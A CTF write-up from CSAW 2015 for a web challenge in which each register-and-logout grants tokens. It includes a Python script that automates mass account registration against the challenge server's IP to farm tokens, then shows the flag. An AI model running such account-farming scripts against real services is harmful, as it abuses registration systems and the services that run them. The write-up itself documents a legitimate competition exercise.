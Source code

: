 ```yaml
---
layout: post
title:  "CSAW - K_{Stairs}"
date:   2015-09-21 19:00
categories: csaw2015
tags: security ctf csaw2015 cryptography
---
```


**Category** : Web 

**Points** : 100

#Write-up
At the start of the CTF, this challenge was worth 50 points, but they changed it for 100 points. We realized that when you register/logout you get three more tokens each time. In that challenge, you need 10 tokens to buy a compass and one token for a pack of five food item.

We created a python script that create many account. Then, it returns the cookie that we can replace with your current one. So, with that script you don't need to manually create account to have more tokens.

###Script by [MOBergeron](https://gist.github.com/MOBergeron/a34e719e4587257defab)
{% highlight python %}
import hashlib
import requests

if __name__ == "__main__":
	u = 199999 # Change this everytime you run the script to have different user names
	
	urlRegister = "http://54.209.88.227/register"
	urlLogout = "http://54.209.88.227/logout"

	s = requests.session()
	
	for i in range(50): # Change this if you need more or less tokens
		username = hashlib.sha1(str(u)).hexdigest()
		user1 = username[:len(username)/2]
		user2 = username[len(username)/2:]
		# Login 1
		r = s.post(urlRegister, data={'user':user1,'pass':'','login':'register'})
		s.get(urlLogout)

		# Login 2
		r = s.post(urlRegister, data={'user':user2,'pass':'','login':'register'})
		
		if(i < 49):
			s.get(urlLogout)
		u+=1

	print(r.cookies)
{% endhighlight %}

Then, you just need to buy a compass, foods and follow the compass indication to find the stairs.

And when we reach the stairs we get this message:

“Your compass indicates you are going the right way. You found the exit... You win! You find the key on a piece of paper: KEY{H0000LY_ST41rRs_S0000_MUCH_SPACE}. Then a grue gets you. You die.”



